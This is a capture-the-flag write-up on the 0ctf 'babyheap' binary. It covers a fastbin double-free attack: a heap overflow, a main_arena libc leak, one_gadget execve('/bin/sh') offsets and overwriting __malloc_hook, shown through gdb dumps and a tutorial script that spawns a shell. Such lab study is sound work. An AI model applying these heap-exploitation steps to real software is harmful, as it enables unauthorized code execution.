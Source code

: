 # Fastbin


* babyheap:

    ```bash
    ❯ file 0ctfbabyheap
    0ctfbabyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9e5bfa980355d6158a76acacb7bda01f4e3fc1c2, stripped
    ❯ pwn checksec 0ctfbabyheap
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    ```
    Full protection !

    From first execution, we can see it is a program that will manage some allocationsghi (allocate, free, set/show content).

    ## Allocation

    Upon allocation there will be an entry in a memory region that will look like this:
    * isUsed:       memRegion + index * 0x18
    * size:         memRegion + index * 0x18 + 8
    * allocatedPtr: memRegion + index * 0x18 + 0x10
    
    For each index such entry will be created. The first field seems to be used when allocating a new entry, in order to increment the index until it is pointing to a new entry.

    ## Fill

    For filling (entering an input), the memory region needs to be allocated (`isUsed` is set to `1`) and between 0 and 0xf included. It will then read the input until the size is reached. We can write more than what we allocated.

    ## Free

    The option to free a memory region will first do some checks (same as fill option), then set `isUsed` to 0, `size` to 0 and free & set `allocatedPtr` to 0.

    ## Dump

    Same as the other ones, the dump option will conduct the usual checks, then print the content of the selected memory region. When playing a bit with it it seems to display a bit more than the exact content that is saved in this memory region.

    ## Exploit

    From the feel of the executable, I'll probably have to use a fastbin attack to leak an address, print it with `Dump` option, and then call a gadget to pop me a shell. If I'm not mistaken I don't think the canary will bother me, since I think I can write anywhere I want if the fastbin succeed.

    Note to self: when using another libc from pwnlib (in the python script), it seems that I can not attach gdb to the target process.

    First overwrite:
    before:
    ```
    0x562ba677c5e0:	0x3434343434343434	0x3434343434343434
    0x562ba677c5f0:	0x0000000000000000	0x0000000000000061
    0x562ba677c600:	0x3232323232323232	0x3232323232323232
    ```

    after:
    ```
    0x564e0173c5e0:	0x3434343434343434	0x3434343434343434
    0x564e0173c5f0:	0x00000000000000c0	0x0000000000000060
    0x564e0173c600:	0x3232323232323232	0x3232323232323232
    ```

    Another limitation: with my host I'm not able to run the proposed answer from Nightmare, so I'll have to run it in a docker container, without gdb :/

    After several tweaks, I was able to leak the address of libc (main_arena+96). Here are several of my thoughts:

    * with the arrival of tcache, one of the potential mitigation-mitigation seems to be "fill the tcache". Indeed, once I filled the tcache the newly allocated memory chunk will go to fastbin.
    
    * when freeing a memory chunk, there is now (at least) one more check:
        ```c
        if (!prev_inuse(p)) {
        prevsize = prev_size (p);
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        if (__glibc_unlikely (chunksize(p) != prevsize))
            malloc_printerr ("corrupted size vs. prev_size while consolidating");
        unlink_chunk (av, p);
        }
        ```
        To put it bluntly, it will check if the prev size of the chunk we're trying to free actually corresponds to the size of the previous one. In this exercise I was able to make the correspondance by adding one more chunk in front of the previous chunk in order to overwrite its size too.

        ```
        one more chunk // used to overwrite the size of previous chunk below
        previous chunk // used to overwrite the prev size of the chunk below
        current chunk // when freed we'll retain a pointer to it (aka ptr_prev_chunk)
        ```

        At this point I didn't really know where I can go, even if I think it might be useful. (well, it *was* useful to leak main_arena's address)

    * leak of main_arena: I completely forgot about `main_arena`, even though I see it mentionned each time I type `heap bins` such as:
        ```
        ──────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────
        [+] unsorted_bins[0]: fw=0x5624724f7010, bk=0x5624724f7010
        →   Chunk(addr=0x5624724f7020, size=0x180, flags=PREV_INUSE)
        [+] Found 1 chunks in unsorted bin.
        ───────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────
        [+] Found 0 chunks in 0 small non-empty bins.
        ───────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────
        [+] Found 0 chunks in 0 large non-empty bins.
        ```

        Also, when looking at the leaked `main_arena` address:
        ```
        0x7f16e274cb60 <__memalign_hook>:	0x00007f16e25fe570	0x00007f16e25febf0
        0x7f16e274cb70 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
        0x7f16e274cb80 <main_arena>:	0x0000000000000000	0x0000000000000001
        0x7f16e274cb90 <main_arena+16>:	0x0000000000000000	0x0000000000000000
        0x7f16e274cba0 <main_arena+32>:	0x0000000000000000	0x0000000000000000
        0x7f16e274cbb0 <main_arena+48>:	0x0000000000000000	0x0000000000000000
        0x7f16e274cbc0 <main_arena+64>:	0x0000000000000000	0x0000000000000000
        0x7f16e274cbd0 <main_arena+80>:	0x0000000000000000	0x0000000000000000
        0x7f16e274cbe0 <main_arena+96>:	0x00005624724f71d0	0x00005624724f7010
        ```
        The malloc hook we can see here let the user change the behavior of malloc, primary for debug purpose (https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html). The second part of the exercise will revolve around writing a gadget for the hook.

        [This link](https://sourceware.org/glibc/wiki/MallocInternals) was useful to understand a bit more about the internals of memory allocation.

        So here we note that it is at `0x70` from `main_arena+96`.
    
    Oh, before I forget here are the gadgets I might use:
    ```bash
    ❯ one_gadget libc-2.31.so
    0xe6c7e execve("/bin/sh", r15, r12)
    constraints:
    [r15] == NULL || r15 == NULL
    [r12] == NULL || r12 == NULL

    0xe6c81 execve("/bin/sh", r15, rdx)
    constraints:
    [r15] == NULL || r15 == NULL
    [rdx] == NULL || rdx == NULL

    0xe6c84 execve("/bin/sh", rsi, rdx)
    constraints:
    [rsi] == NULL || rsi == NULL
    [rdx] == NULL || rdx == NULL
    ```

    The second step of the exploit is a double free. As per the tutorial, I rearranged the memory so that I had two pointers to the same region. This came from the "forgotten" chunk that was used for the leak, and the rearranged memory that gave me the second pointer to the exact same place.

    I then freed both pointers (and also freeing another one between the two to avoid error messages), and indeed we can see two freed chunks in the fastbin that points to the same address:
    ```bash
    gef➤  heap bins
    ...
    ────────────────────── Fastbins for arena 0x7f0971d76b80 ──────────────────────
    ...
    Fastbins[idx=5, size=0x70]  ←  Chunk(addr=0x557fb9649410, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x557fb96493a0, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x557fb9649410, size=0x70, flags=PREV_INUSE)  →  [loop detected]
    ```

    `0x557fb9649410` being the duplicate pointer.

    This duplicate pointer will be used in 2 steps:
    * first assign it once, and write false information about a memory chunk, as if it was in the linked list. The false information will point to a memory region that we'll want to overwrite
    * on the second assignment, libc will detect a (fake) memory chunk, and will make it available on the next allocation request.

    It is this fake chunk that we will then allocate, in order to overwrite `malloc_hook`.

    Unfortunatly, I was blocked at this point with my current knowledge. Trying to allocate the fake chunk will give me an `"malloc(): memory corruption (fast)"` error that seems to stems from an incorrect index check, because the memory part corresponding to the fake chunk's header does not have a correct size (indeed, it is a memory address). Even gdb will tell me:
    ```bash
    Fastbins[idx=5, size=0x70]  ←  Chunk(addr=0x7fc63de31b70, size=0x7fc63dce3bf0, flags=) [incorrect fastbin_index]
    ```

    At this point I will just use the tutorial's answer in a ubuntu16.04 docker, since I consider I grasped most of the aspects of the exploits.
    ```
    # docker build -t ubuntu16_04_pwn .
    # docker run -it --rm -v `pwd`:/tmp -w /tmp  ubuntu16_04_pwn
    # python3.8 babyheap_pwn_tutorial.py
    [...]
    $ ls
    0ctfbabyheap  babyheap_pwn.py        core          libc-2.31.so
    Dockerfile    babyheap_pwn_tutorial.py    libc-2.23.so
    ```
